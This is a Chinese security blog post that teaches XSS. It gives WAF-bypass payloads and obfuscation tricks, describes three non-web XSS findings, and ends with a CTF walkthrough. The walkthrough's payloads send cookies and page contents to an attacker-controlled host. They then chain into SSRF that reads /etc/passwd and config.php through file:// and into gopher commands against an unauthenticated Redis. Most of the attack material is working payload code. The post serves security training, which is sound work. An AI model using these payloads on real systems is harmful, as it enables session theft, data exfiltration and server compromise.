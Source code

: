 ```yaml
---
layout:     post
title:      BypassWaf_xss
date:       2018-12-28
author:     Wh0ale
header-img: img/jade_by_wlop-d9n5wvp.jpg
catalog: true
tags:
    - xss
---
```


![](https://ws1.sinaimg.cn/large/b6de3d7dly1fyp4d6xll2j20ye0dy403.jpg)

![](https://ws1.sinaimg.cn/large/b6de3d7dly1fys1velc7qj210y0w6acr.jpg)

# 0x01 什么是XSS漏洞

XSS全称跨站脚本(Cross Site Scripting)，为不和层叠样式表(Cascading Style Sheets, CSS)的缩写混淆，故缩写为XSS，比较合适的方式应该叫做跨站脚本攻击。

跨站脚本攻击是一种常见的web安全漏洞，它主要是指攻击者可以在页面中插入恶意脚本代码，当受害者访问这些页面时，浏览器会解析并执行这些恶意代码，从而达到窃取用户身份/钓鱼/传播恶意代码等行为。

## 一、 XSS分类

> 反射型（非持久型）
> 存储型（持久型）
> DOM型
> 不常见的XSS:
> mXSS 突变型XSS
> UXSS 通用型XSS
> Flash XSS
> UTF-7 XSS
> MHTML XSS
> CSS XSS
> VBScript XSS

**存储型**

存储型XSS也叫持久型XSS，存储的意思就是Payload是有经过存储的，当一个页面存在存储型XSS的时候，XSS注入成功后，那么每次访问该页面都将触发XSS。

**反射型**

反射型XSS也叫非持久型XSS，最常见的是Payload是构造在网址的某个GET参数的值里。

**DOM 型**

基于DOM的XSS有时也称为type0XSS。当用户能够通过交互修改浏览器页面中的DOM(DocumentObjectModel)并显示在浏览器上时，就有可能产生这种漏洞，从效果上来说它也是反射型XSS。通过修改页面的DOM节点形成的XSS，称之为DOMBasedXSS。

## 二、 xss bypass

### 检测过滤情况

用于有字符限制的短探测器
 `'';!--"<XSS>=&{()}`
 完全版探测器
 `';alert(String.fromCharCode(88,83,83))//';alert(String.fromCharCode(88,83,83))//";alert(String.fromCharCode(88,83,83))//";alert(String.fromCharCode(88,83,83))//--></SCRIPT>">'><SCRIPT>alert(String.fromCharCode(88,83,83))</SCRIPT>`

### 观察输出位置

#### 1.标签之间

```
模型： <div>[xss]</div> payload： <script>alert(1)</script>或者<img src=1 onerror=alert(1)>
这些标签有：
<a> <p> <img> <body> <button> <var> <div> <object> <input> <select> <keygen> <frameset>  <embed> <svg> <video> <audio>
       
自带HtmlEncode（转义）功能的标签(RCDATA)，这是插入的javascript不会被执行，除非我们闭合掉它们。
<textarea></textarea> <title></title> <iframe></iframe> <noscript></noscript> <noframes></noframes> <xmp></xmp> <plaintext></plaintext> 其他：<math></math>也不行
```

#### 2.js标签之间

在该位置，空格被过滤，可用/**/代替空格。输出在注释中，通过换行符%0a %0d使其逃逸出来。

##### (1)不在字符串内

判断<>/是否被过滤。如果没有，那么直接插入就可以。

```
<script>
[output]
</script>
payload：</script><script>alert(1)</script>
```

##### (2)在字符串中

此时需要闭合字符串，并保证插入的JS代码符合语法规范。

```
<script>
Var x="Input";
</script>
```

 input是输出点，我们首先要闭合双引号，才能保证XSS成功。如果我们无法闭合包括字符串的引号（引号被转义），就很难利用，除非存在两个输出点或宽字节。(详见参考资料)

#### 3.输出在HTML属性内

##### (1)文本属性中

例如：`<input value="输出"> 、 <img onload="...[输出]..."> ，再比如 <body style="...[输出]...">`

**无引号包裹，直接添加新的事件属性。**

**有引号包括。首先测试引号是否可用，可用则闭合属性之后添加新的事件属性。**

> HTML的属性，如果被进行HTML实体编码(形如'&#x27)，那么HTML会对其进行自动解码，从而我们可以在属性里以HTML实体编码的方式引入任意字符，从而方便我们在事件属性里以JS的方式构造payload。当然，也可以闭合属性后，然后再执行脚本。

##### (2)src/href/action/xlink:href/autofocus/content/data 等属性

直接使用伪协议绕过。

```
javascript 伪协议： <a href=javascript:alert(2)>test</a>
data 协议执行 javascript： <a href=data:text/html;base64,PHNjcmlwdD5hbGVydCgzKTwvc2NyaXB0Pg==>test</a>(Chrome被拦截，Firefox可以)
urlencode 版本： <a href=data:text/html;%3C%73%63%72%69%70%74%3E%61%6C%65%72%74%2829%29%3C%2F%73%63%72%69%70%74%3E>(测试未通过)
不使用 href 的另外一种组合来执行 js： <svg><a xlink:href="javascript:alert(14)"><rect width="1000" height="1000" fill="white"/></a></svg>（均可） 或者： 
<math><a xlink:href=javascript:alert(1)>1</a></math>(Chrome不可，Firefox可以)
```

##### (3)on*事件中

 插入合乎逻辑的JS代码即可。也可以使用伪协议。

```
onload 
onclick
onunload 
onchange 
onsubmit 
onreset 
onselect 
onblur 
onfocus 
onabort 
onkeydown 
onkeypress 
onkeyup 
ondbclick 
onmouseover 
onmousemove 
onmouseout 
onmouseup 
onforminput 
onformchange 
ondrag 
ondrop
```

### 绕过waf

**单次过滤规则绕过：**`<scr<script>ipt>`
**大小写绕过：**<sCript>
**alert绕过：**可以尝试prompt和confirm
**没有斜杠：**`<IMG SRC=javascript:alert('XSS')>`
**空格被过滤：**`<img/src=""onerror=alert(2)>` `<svg/onload=alert(2)></svg>`
**长度限制时：**
 (1)`<q/oncut=alert(1)>`
 (2)

```
<script>z=’document.’</script> <script>z=z+’write(“‘</script> <script>z=z+’<script’</script> <script>z=z+’ src=ht’</script> <script>z=z+’tp://ww’</script>
<script>z=z+’w.shell’</script> <script>z=z+’.net/1.’</script> <script>z=z+’js></sc’</script>
<script>z=z+’ript>”)’</script> <script>eval_r(z)</script>
```

单引号及双引号被过滤情况：`<script>alert(/jdq/)</script> //用双引号会把引号内的内容单独作为内容 用斜杠，则会连斜杠一起回显`
 **javascript伪协议：**

```
<a href="javascript:alert(/test/)">xss</a>
<iframe src=javascript:alert('xss');height=0 width=0 /><iframe>利用iframe框架标签
```

**畸形payload：**

``` 
<IMG """><SCRIPT>alert("XSS")</SCRIPT>">
```

**括号被过滤,可以使用throw来抛出数据**

```
<a onmouseover="javascript:window.onerror=alert;throw 1">2</a>
<img src=x onerror="javascript:window.onerror=alert;throw 1">
<body/onload=javascript:window.onerror=eval;throw'=alert\x281\x29';>
```

**当=();:被过滤时：**

过滤某些关键字（如：javascript） 可以在属性中的引号内容中使用空字符、空格、TAB换行、注释、特殊的函数，将代码行隔开。比如在使用<iframe src="javascript:alert(1253)" height=0 width=0 /><iframe>时，可以用回车、Tab键将src中的内容隔开，回车的url编码为%0a,%0b;

 **拼凑法：**① 双写绕过；② 使用js定义变量z=scri, z+pt=script; ③ 两处输出点

```
<scri<!-- 第二处-->pt>;
```

无法使用href：

```
<a onmouseover="alert(document.cookie)">xxs link</a>
在chrome下，其回补全缺失的引号。因此，也可以这样写：
<a onmouseover=alert(document.cookie)>xxs link</a>
```

### 编码

JS函数（如eval，settimeout）还有就是`href= action= formaction= location= on*= name= background= poster= src= code=`这些地方，可以配合编码。此外，data属性可以base64编码。
 1.js16进制

```
<script>eval(“js+16进制加密”)</script> <script>eval("\x61\x6c\x65\x72\x74\x28\x22\x78\x73\x73\x22\x29")</script> 编码要执行的语句↓
Alert(“xss”)
```

2.js unicode

```
<script>eval("unicode加密")</script> //js unicode加密 解决alert()被过滤
<script>eval("\u0061\u006c\u0065\u0072\u0074\u0028\u0022\u0078\u0073\u0073\u0022\u0029")</script>
```

3.String.fromCharCode函数（不需要任何引号，必须函数内）

```
<script>eval(String.fromCharCode编码内容))</script> <script>eval(String.fromCharCode(97,108,101,114,116,40,34,120,115,115,34,41,13))</script>
```

4.jsfuck版本

```
<script>alert((+[][+[]]+[])[++[[]][+[]]]+([![]]+[])[++[++[[]][+[]]][+[]]]+([!![]]+[])[++[++[++[[]][+[]]][+[]]][+[]]]+([!![]]+[])[++[[]][+[]]]+([!![]]+[])[+[]])</script>
```

>　　这是一个黑客奇葩的想法。
>
>　　在黑客行为中，你的js代码可能被关键词检测，于是考虑躲避关键词检测的想法，例如 eval等关键词。
>
>　　1、想了各种方法来规避这个检测。
>
>　　2、把方法写成通用的程序。
>
>　　3、把包含的字符做到极致，最后只剩下 ()+[]!  这六个字符。
>
> 这段代码来着于这个网站转码得到：<http://www.jsfuck.com/>   
>
>这里是它的百科，感兴趣可以去了解下：<https://en.wikipedia.org/wiki/JSFuck>
>
>1、脚本注入时防止过滤
>
>2、一定程度加密关键代码（生成代码很长，不适合加密大量代码。只能一定程度上加密，不能依赖）
>
>3、装逼用（我最中意的用途）
>
>结论：转换后本质依然是javascript，通过javascript的一些性质来生成，具体实现可以看这里的代码<https://github.com/aemkei/jsfuck>

5.HTML编码

```
<img src='1' onerror='aler&#x0074;(1)'>
```

6.base64编码（仅data支持）

```
     <object data="data:text/html;base64,PHNjcmlwdCBzcmM9aHR0cDovL3QuY24vUnE5bjZ6dT48L3NjcmlwdD4="></object>
     格式：
     Data:<mime type>,<encoded data>
     Data //协议
     <mime type> //数据类型
     charset=<charset>  //指定编码
     [;base64] //被指定的编码
     <encoded data> //定义data协议的编码
     特点：不支持IE
```



# 0x02 非基于Web的XSS注射

**PowerDNS Recursor** 

在我们的演讲中，Chris提到他在一个流行的DNS软件中发现了一个不常见的XSS，所以我决定从它开始强调网络并不总是唯一的攻击媒介。

PowerDNS Recursor是一款高端，高性能的解析名称服务器，可为至少1亿用户的DNS解析提供支持。Recursor是两个名称服务器产品之一，其主要目标是充当解析DNS服务器。


一个[详细的演练](https://blog.fortinet.com/2017/12/02/powerdns-recursor-html-script-injection-vulnerability-a-walkthrough)解释它是如何可能通过使用命令行工具挖一个DNS查询来注入XSS有效载荷：

![img](https://www.websec.ca/img/three-non-web-based-xss-injections/dig.png)



而这又在Web UI中呈现：

![img](https://www.websec.ca/img/three-non-web-based-xss-injections/powerdns.png)



**Symantec SSL Toolbox**这是我在三年前在Symantec的SSL证书测试程序中找到并报告的已修复漏洞。此[免费在线服务](https://cryptoreport.websecurity.symantec.com/checker/)用于从给定URL的x509 SSL证书中提取和显示值，信任其内容，而无需清理字段中的数据。


因此，我在不同的字段中创建了一个值为“<script> alert（document.cookie）; </ script>”的SSL证书，并将其安装在Web服务器的前面：

![img](https://www.websec.ca/img/three-non-web-based-xss-injections/symantec.png)



分析此类证书的结果是正在执行的JavaScript代码：

![ximg](https://www.websec.ca/img/three-non-web-based-xss-injections/symantec-xss.png)



**RATS（安全性粗略审计工具）**由CERN计算机安全部门开发，[RATS](https://security.web.cern.ch/security/recommendations/en/codetools/rats.shtml)是一个非常好的静态代码分析工具。我喜欢它并且已经使用它多年了。然而，最后一个版本可以追溯到2013年12月，现在可能没有维护，但不确定。


去年我在火车上很无聊，发现这个无用的XSS。RATS收到一个包含源代码的文件夹，并创建一个包含结果的HTML报告，其中还包括所分析文件的名称，因此攻击向量非常明显。我在其名称中创建了一个包含JavaScript代码的文件：

![img](https://www.websec.ca/img/three-non-web-based-xss-injections/rats.png)



分析之后，注入的JavaScript将在报告中呈现：

![img](https://www.websec.ca/img/three-non-web-based-xss-injections/rats-xss.png)



# 0x03 CTF赛题

[XSS的威力：从XSS到SSRF再到Redis](https://www.anquanke.com/post/id/156377)

## **1.xssme**

payload：

```
<svg/onload="document.location='http://vps_ip:23333'">
```

vps：

```
nc -l -vv -p 23333
```

收获flag

```
<svg/onload="document.location='http://ugelgr.ceye.io/?'+document.cookie">
```

![](https://ws1.sinaimg.cn/large/b6de3d7dly1fypr96reo5j20jc07ojst.jpg)

解码后得到

```
PHPSESSID=9crkuhdqs9b1jkslebpieprr86; FLAG_XSSME=FLAG{Sometimes, XSS can be critical vulnerability <script>alert
```



## **2.xssrf leak**

xss去本地访问，再将页面内容打出来

```
<svg/onload="document.location='http://ugelgr.ceye.io/?'+btoa(document.body.innerHTML)">
```

**编码绕过**

![](https://ws1.sinaimg.cn/large/b6de3d7dly1fypreygzbrj20lz0a1dmd.jpg)

**解码后保存到本地html里打开**

![](https://ws1.sinaimg.cn/large/b6de3d7dly1fyprfv1be7j20re0lcmyx.jpg)

发现多了一个send request的功能，跟过去看代码发现多了一个send request的功能，跟过去看代码
[![img](https://p5.ssl.qhimg.com/t016761eb473b221e42.png)](https://p5.ssl.qhimg.com/t016761eb473b221e42.png)

没错，是多了一个request.php
那么结合题目意思，应该是有ssrf，我想应该就是利用这里的request.php了吧
那么继续去读这个页面的html

```html
<svg/onload="
xmlhttp=new XMLHttpRequest();
xmlhttp.onreadystatechange=function()
{
    if (xmlhttp.readyState==4 && xmlhttp.status==200)
    {
        document.location='http://vps_ip:23333/?'+btoa(xmlhttp.responseText);
    }
}
xmlhttp.open("GET","request.php",true);
xmlhttp.send();
">
```



经过编码后发送，得到
![](https://ws1.sinaimg.cn/large/b6de3d7dly1fyprjod9cbj21e6076n0h.jpg)同样解码后发现代码
![](https://ws1.sinaimg.cn/large/b6de3d7dly1fyprkntdnjj21900h2jsr.jpg)应该xss的点就是在这里了
于是尝试file协议读`/etc/passwd`

```html
<svg/onload="
xmlhttp=new XMLHttpRequest();
xmlhttp.onreadystatechange=function()
{
    if (xmlhttp.readyState==4 && xmlhttp.status==200)
    {
        document.location='http://vps_ip:23333/?'+btoa(xmlhttp.responseText);
    }
}
xmlhttp.open("POST","request.php",true);
xmlhttp.setRequestHeader("Content-type","application/x-www-form-urlencoded");
xmlhttp.send("url=file:///etc/passwd");
">
```

![](https://ws1.sinaimg.cn/large/b6de3d7dly1fyprlccny8j2178182k0b.jpg)发现成功读取了`/etc/passwd`
那么我们回想到最初的文件

```
User-agent: *
Disallow: /config.php
Disallow: /you/cant/read/config.php/can/you?
Disallow: /backup.zip
```

于是直接读config.php

```html
<svg/onload="
xmlhttp=new XMLHttpRequest();
xmlhttp.onreadystatechange=function()
{
    if (xmlhttp.readyState==4 && xmlhttp.status==200)
    {
        document.location='http://vps_ip:23333/?'+btoa(xmlhttp.responseText);
    }
}
xmlhttp.open("POST","request.php",true);
xmlhttp.setRequestHeader("Content-type","application/x-www-form-urlencoded");
xmlhttp.send("url=file:///var/www/html/config.php");
">
```

![](https://ws1.sinaimg.cn/large/b6de3d7dly1fyprly0fcwj21b012en16.jpg)cool，于是我们拿到了第二个flag

```
FLAG{curl -v -o flag --next flag://in-the.redis/the?port=25566&good=luck}
```

## **3. xssrf redis**

只剩下最后一步打redis了

这里很容易就想到了gopher未授权访问打redis
上一题提示我们redis再25566端口，于是我们尝试访问一下

```html
<svg/onload="
xmlhttp=new XMLHttpRequest();
xmlhttp.onreadystatechange=function()
{
    if (xmlhttp.readyState==4 && xmlhttp.status==200)
    {
        document.location='http://vps_ip:23333/?'+btoa(xmlhttp.responseText);
    }
}
xmlhttp.open("POST","request.php",true);
xmlhttp.setRequestHeader("Content-type","application/x-www-form-urlencoded");
xmlhttp.send("url=gopher://127.0.0.1:25566/_info%250a_quit");
">
```

于是愉快的打出信息，发现果然是未授权访问
![](https://ws1.sinaimg.cn/large/b6de3d7dly1fypro47h7hj20w211o0vi.jpg)那么看看key有哪些

```
xmlhttp.send("url=gopher://127.0.0.1:25566/_KEYS%2520*%250a_quit");
```

![](https://ws1.sinaimg.cn/large/b6de3d7dly1fyprovnhvtj20nq0vm75o.jpg)发现了flag
然后我们尝试读取

```
xmlhttp.send("url=gopher://127.0.0.1:25566/_get%2520flag%250a_quit");
```

发现报错
![](https://ws1.sinaimg.cn/large/b6de3d7dly1fyprpnzlqij21020eaab5.jpg)发现类型错误了
那我们看看类型

```
xmlhttp.send("url=gopher://127.0.0.1:25566/_type%2520flag%250a_quit");
```

[![img](https://p3.ssl.qhimg.com/t01c56b570a1f671daa.png)](https://p3.ssl.qhimg.com/t01c56b570a1f671daa.png)

发现是个list
那我们看看长度

```
xmlhttp.send("url=gopher://127.0.0.1:25566/_llen%2520flag%250a_quit");
```

![](https://ws1.sinaimg.cn/large/b6de3d7dly1fyprrfqsanj20qg0kut9v.jpg)发现是53
那我们可以愉快的读取list了

```
xmlhttp.send("url=gopher://127.0.0.1:25566/_lrange%2520flag%25200%252053%250a_quit");
```

[![img](https://p0.ssl.qhimg.com/t016b256ff57a040832.png)](https://p0.ssl.qhimg.com/t016b256ff57a040832.png)

我们把它拼接起来

[![img](https://p2.ssl.qhimg.com/t01584c35dc674b052a.png)](https://p2.ssl.qhimg.com/t01584c35dc674b052a.png)so cool
得到最后的flag

```
FLAG{Rediswithout authentication is easy to exploit}
```











































